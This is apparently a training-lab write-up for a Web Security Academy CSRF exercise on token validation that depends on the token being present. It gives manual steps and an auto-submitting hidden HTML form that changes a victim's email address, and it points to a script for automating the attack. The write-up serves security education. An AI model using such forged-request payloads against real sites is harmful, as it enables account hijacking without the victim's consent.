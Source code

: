 # CSRF LAB 03 - CSRF where token validation depends on token being present

## Manual Solution

- Open the Web Security Academy lab environment in your browser.
- Log in with the credentials: username:wiener password:peter.
- Open your browser’s Developer Tools and switch to the Network tab.
- While logged in attempt to change your email address from the account settings page.
- Observe the request sent to the /my-account/change-email endpoint.
- Notice that the request contains a `CSRF` token.
- Go to the Exploit Server and paste the following HTML payload into the body of the page:
```html
    <html>
        <body>
            <form action="https://[YOUR_LAB_ID].web-security-academy.net/my-account/change-email" method="POST">
                <input type="hidden" name="email" value="hacker@hacker.com">
            </form>

            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html>
```
- Save and deliver the exploit to the victim.
- This lab contains a CSRF token but the web application doesn't validate the CSRF token.
## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python csrf_lab_03.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```
